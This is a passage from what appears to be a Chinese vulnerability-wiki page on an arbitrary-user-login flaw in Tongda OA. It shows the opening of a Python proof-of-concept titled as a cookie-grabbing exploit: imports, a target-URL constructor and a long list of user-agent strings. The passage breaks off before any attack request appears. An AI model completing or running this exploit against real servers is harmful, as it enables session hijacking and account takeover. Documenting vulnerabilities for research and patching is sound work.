 ![](/Users/aresx/Documents/VulWiki/.resource/通达OA<11.5.200417任意用户登录漏洞/media/rId32.png)

### 获取cookie poc

    import requests
    import argparse
    import random
    import warnings
    import sys
    import re

    class Tond_da_poc():
        def __init__(self,url):
            self.url = url+'/'
            self.user_agent =USER_AGENTS = [
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
        "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
        "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)",
        "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)",
        "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.2; .NET CLR 1.1.4322; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 3.0.04506.30)",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)",
        "Mozilla/5.0 (X11; U; Linux; en-US) AppleWebKit/527+ (KHTML, like Gecko, Safari/419.3) Arora/0.6",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.2pre) Gecko/20070215 K-Ninja/2.1.1",
        "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9) Gecko/20080705 Firefox/3.0 Kapiko/3.0",
        "Mozilla/5.0 (X11; Linux i686; U;) Gecko/20070322 Kazehakase/0.4.5",
        "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.8) Gecko Fedora/1.9.0.8-1.fc10 Kazehakase/0.5.6",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.56 Safari/535.11",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_3) AppleWebKit/535.20 (KHTML, like Gecko) Chrome/19.0.1036.7 Safari/535.20",
        "Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.11 (KHTML, like Gecko) Chrome/20.0.1132.11 TaoBrowser/2.0 Safari/536.11",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.71 Safari/537.1 LBBROWSER",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; LBBROWSER)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E; LBBROWSER)",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.84 Safari/535.11 LBBROWSER",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
        "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; SV1; QQDownload 732; .NET4.0C; .NET4.0E; 360SE)",
        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
        "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",